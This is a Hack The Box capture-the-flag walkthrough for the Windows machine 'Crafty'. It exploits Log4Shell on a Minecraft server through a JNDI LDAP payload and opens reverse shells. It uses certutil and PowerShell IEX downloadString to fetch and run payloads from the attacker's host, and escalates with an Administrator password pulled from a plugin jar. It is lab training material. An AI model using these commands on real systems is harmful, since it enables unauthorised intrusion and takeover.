


# Crafty

## Machine Details 

- **CTF:** Hack The Box
- **Category:** Windows
- **Points:** 20

## Solution

Let's start with enumeration:

```sh
sudo nmap -p 80,25565 -A 10.10.11.249 
Starting Nmap 7.94 ( https://nmap.org ) at 2024-03-06 18:29 CET
Nmap scan report for crafty.htb (10.10.11.249)
Host is up (0.031s latency).

PORT      STATE SERVICE   VERSION
80/tcp    open  http      Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Crafty - Official Website
|_http-server-header: Microsoft-IIS/10.0
25565/tcp open  minecraft Minecraft 1.16.5 (Protocol: 127, Message: Crafty Server, Users: 0/100)
```

Once we open `10.10.11.249` in browser, we can see, that it states, that browser can't resolve `crafty.htb`, so let's add it to `/etc/hosts`:

```sh
echo "10.10.11.249 crafty.htb" | sudo tee -a /etc/hosts
```

So let's open it now in browser:


Hm, need to connect with `Minecraft` on server `play.crafty.htb`? :)

Let's donwload [pyCraft](https://github.com/ammaraskar/pyCraft?source=post_page-----316a735a306d--------------------------------) and see what we can do:

```sh
$ python3 start.py
Enter your username: test
Enter your password (leave blank for offline mode): 
Enter server host or host:port (enclose IPv6 addresses in square brackets): 10.10.11.249
Connecting in offline mode...
Connected.
```

We can find `CVE-2021-44228` vulnerability for minecraft servers, let's test if it's indeed vulnerable. *(I suggest to read [Unified](https://github.com/bu19akov/CTF-Challenge-Solutions/blob/main/Hack%20The%20Box/starting_point/tier_2/4%20-%20Unified/solution.md) walkthrough first)*

Firstly, we will monitor our traffic on port `1389` and secondly, we will send the payload on the port:

```sh
$ sudo tcpdump -i utun7 port 1389
```

Then send this from `pyCraft`:

```sh
${jndi:ldap://10.10.14.92:1389/anything}
```

And we get the response:

```sh
19:01:05.545568 IP crafty.htb.49691 > 10.10.14.92.iclpv-dm: Flags [SEW], seq 306940046, win 64240, options [mss 1337,nop,wscale 8,nop,nop,sackOK], length 0
19:01:05.545634 IP 10.10.14.92.iclpv-dm > crafty.htb.49691: Flags [R.], seq 0, ack 306940047, win 0, length 0
```

So it's indeed vulnerable!

Let's attack it, using [this](https://github.com/kozmer/log4j-shell-poc?source=post_page-----316a735a306d--------------------------------) tool. Firtsly, change `String cmd="/bin/bash";` in `poc.py` to `String cmd="cmd.exe";`, because our target is `Windows`, then follow installation steps from the link and set up netcat listener on port `9001`:

```sh
$ python3 poc.py --userip 10.10.14.92 --webport 80 --lport 9001

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit java class created success
[+] Setting up LDAP server

[+] Send me: ${jndi:ldap://10.10.14.92:1389/a}

[+] Starting Webserver on port 80 http://0.0.0.0:80
Listening on 0.0.0.0:1389
Send LDAP reference result for a redirecting to http://10.10.14.92:80/Exploit.class
10.10.11.249 - - [06/Mar/2024 19:45:18] "GET /Exploit.class HTTP/1.1" 200 -
```

Then send `${jndi:ldap://10.10.14.92:1389/a}` in `pyCraft` console and we are in:

```sh
nc -l 9001
Microsoft Windows [Version 10.0.17763.5329]
(c) 2018 Microsoft Corporation. All rights reserved.

c:\Users\svc_minecraft\Desktop>type user.txt
e61382c442d1a3b40d3ecb11d0e39ae9
```

Now we need to escalate our privileges to `Administrator`.

We can find some interesting file, but with our current shell we can't download it:

```sh
c:\Users\svc_minecraft\server\plugins>dir
 Volume in drive C has no label.
 Volume Serial Number is C419-63F6

 Directory of c:\Users\svc_minecraft\server\plugins

10/27/2023  01:48 PM    <DIR>          .
10/27/2023  01:48 PM    <DIR>          ..
10/27/2023  01:48 PM             9,996 playercounter-1.0-SNAPSHOT.jar
               1 File(s)          9,996 bytes
               2 Dir(s)   3,426,013,184 bytes free
```

Let's create reverse shell:

```sh
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.92 LPORT=4444 -f exe -o shell.exe
```

Then start `python` server:

```sh
$ python3 -m http.server 8080
```

And download the shell from the target machine and start it:

```sh
c:\users\svc_minecraft\servercertutil -urlcache -f http://10.10.14.92:8080/shell.exe %temp%/shell.exe   
certutil -urlcache -f http://10.10.14.92:8080/shell.exe %temp%/shell.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.

c:\users\svc_minecraft\server>start %temp%/shell.exe
```

Now we can download `.jar` file and analyze it with [JD-Gui](http://java-decompiler.github.io):



We can see something like `Administrator` password. Now we need to create one more shell for `Powershell`, upload it to victim's machine and start it with our credentials. We can use [this](https://www.revshells.com) online tool to create `Powershell` reverse shell:



Then set up our netcat listener:

```sh
$ nc -l 9002
```

And execute following commands from victim's machine:

```sh
c:\users\svc_minecraft\server>powershell
PS C:\users\svc_minecraft\server> $SecPass = ConvertTo-SecureString 's67u84zKq8IXw' -AsPlainText -Force
$SecPass = ConvertTo-SecureString 's67u84zKq8IXw' -AsPlainText -Force
PS C:\users\svc_minecraft\server> $cred = New-Object System.Management.Automation.PSCredential('Administrator',$SecPass)
$cred = New-Object System.Management.Automation.PSCredential('Administrator',$SecPass)
PS C:\users\svc_minecraft\server> Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.92:8080/rev.ps1')" -Credential $cred
Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.92:8080/rev.ps1')" -Credential $cred
```

And we are in as `Administrator`:

```sh
$ nc -l 9002
whoami
crafty\administrator
```

Let's get flag:

```sh
type root.txt
4cb6d5a9fcbff73a8f4ef161922bb8cf
```

## Final Flags

> `user`: e61382c442d1a3b40d3ecb11d0e39ae9
> `root`: 4cb6d5a9fcbff73a8f4ef161922bb8cf

*Created by [bu19akov](https://github.com/bu19akov)*